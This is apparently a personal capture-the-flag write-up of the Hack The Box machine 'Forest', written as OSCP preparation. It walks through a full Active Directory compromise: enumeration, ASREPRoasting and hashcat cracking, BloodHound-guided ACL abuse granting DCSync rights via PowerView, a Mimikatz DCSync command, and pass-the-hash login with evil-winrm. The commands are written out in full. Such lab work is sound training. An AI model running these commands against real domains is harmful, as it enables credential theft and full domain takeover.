 # Forest HTB Writeup
Forest is an easy machine on the HacktheBox platform, primarily specializing in Active Directory exploitation. This machine was on TJNull's OSCP list and helped me pass the OSCP exam.

### Enumeration
We start off with a nmap scan, using default scripts (-sC), and the enumerating versions flags (-sV).
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-12 08:29 CST
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.45 seconds
                                                                                                                                                                                             
shellph1sh@kali:~/Htb/forest$ sudo nmap -p 53,88,135,139,389,445,464,593,636,3269,5985,9389,47001 -sC -sV -oA nmap/forest 10.10.10.161
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-12 08:29 CST
Nmap scan report for 10.10.10.161
Host is up (0.061s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-12-12 14:36:32Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-12-12T06:36:42-08:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 2h46m39s, deviation: 4h37m09s, median: 6m37s
| smb2-time: 
|   date: 2023-12-12T14:36:39
|_  start_date: 2023-12-11T01:44:33
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.32 seconds
```



By this nmap scan, we can see that that this machine is an Active Directory Domain Controller. We can attempt to enumerate Domain user accounts if SMB anonymous bindings are enabled. So we run `enum4linux`.

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/914fb276-0b73-4bce-bb94-479c8cbbb499)

We aquire quite a few users from `enum4linux`, which we can use to leverage an attack.

### Exploitation
We can build a wordlist of Domain usernames to test if accounts are ASREP-Roastable. An ASREPRoasting attack leverages an accounts lack of Kerberos pre-authentication required, giving us the users hash.

We can build the text file users.txt like so:
```
sebastien
lucinda
svc-alfresco
andy
mark
santi
zeus
```

and utilize it in an ASREPRoasting attack with `impacket-GetNPUsers`:
![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/e427e5ec-d449-4685-b33a-39834459c515)



We get a hash for the user svc-alfresco! The naming convention `svc` indicates a service account, meaning potentially more privilege being given to this account.

We can then attempt to crack the hash using hashcat, with the command: `hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule`:

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/89e74388-986f-48b6-9e95-cca47192b952)


Boom! We cracked the service account hash!
Great, now due to the WinRM service running on port 5985 that we enumerated earlier with nmap, we could potentially gain command execution if the service user is in the local group “Remote Management Users”.

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/78268aa2-ff39-47b7-ae5a-9321ccefaea0)

We get command execution!

As a Domain user, or a service account, I like to execute BloodHound on the target the enumerate potential domain vulnerabilities like Kerberoasting, or permission misconfiguration.


We find that the Domain Group `Account Operators` as `Generic All` access on `zeus`, and `svc-alfresco` is a part of the `Privileged Accounts` Domain Group, and the `Privileged Accounts` Domain Group is a member of the `Account Operators` Group. Because of this, our current user has full control over the user `zeus`. We can change their password, set them apart from the `Remote Management Users` to get RCE, then give them DCSync rights. 


![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/401c1c39-a67a-4028-bbe2-cb3c0fbefdad)

```
net localgroup "Remote Management Users" htb.local\zeus /add
```

Utilize PowerView to give Zeus DCSync rights
```
. .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\zeus', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -PrincipalIdentity zeus -Rights DCSync
```

Then we can use Evil-WinRM once more to gain access to the `zeus` account

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/740c03d3-a1a9-4833-9b29-96df83f1c638)


We can then use Mimikatz to preform the DCSync procedure as `zeus`.

```
Mimikatz.exe "lsadump::dcsync /domain:htb.local /user:Administrator" "exit"
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/ac9d1a04-d612-4b2b-ac6a-8a69303abce2)

And we've gathered the NTLM hash of the Administrator, we can use this to Pass the Hash (PtH) to the Domain Administrator with evil-winrm.

```
evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

